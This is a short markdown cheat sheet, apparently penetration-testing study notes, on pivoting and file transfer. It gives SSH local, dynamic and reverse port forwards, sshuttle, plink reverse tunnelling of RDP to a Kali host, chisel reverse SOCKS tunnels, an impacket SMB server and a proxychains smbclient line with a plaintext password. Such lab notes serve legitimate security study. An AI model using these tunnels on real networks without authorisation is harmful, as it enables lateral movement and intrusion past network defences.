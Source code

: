# Transfer
## Port Forwading
### SSH
```bash
# localport
ssh -L 4455:172.16.50.217:445 database_admin@10.4.50.215
# l Dynamic
## proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
ssh -D 0.0.0.0:1080 database_admin@10.4.50.215
tail /etc/proxychains4.conf

# remote
sudo systemctl start ssh

ssh -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
# r Dynamic
ssh -R 1080 kali@192.168.118.4
tail /etc/proxychains4.conf
```
#### sshuttle
```bash
sshuttle -r database_admin@192.168.50.63:22 10.4.50.0/24 172.16.50.0/24
```
#### plink
```bash
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```
### Chisel
https://github.com/jpillora/chisel/releases
```bash
./chisel_1.7.5_linux_amd64 server -p 2345 --reverse
chisel.exe client 192.168.45.157:2345 R:80:172.16.118.241:80 R:445:172.16.118.241:445

# Dynamic
./chisel_1.7.5_linux_amd64 server -p 2345 --socks5 --reverse
./chisel_1.7.5_linux_amd64 client 192.168.49.100:2345 R:socks

# tail /etc/proxychains4.conf
[ProxyList]
socks5 127.0.0.1 1080
```
## SMB
```bash
impacket-smbserver work /root/work -smb2support

copy  \\192.168.\test.zip
xcopy Win32\* \\FILE04\c$\Windows\Temp\ /s /e
```
## FTP
```bash
# passive mode
passive

# binary mode
bin
# text
ascii
```
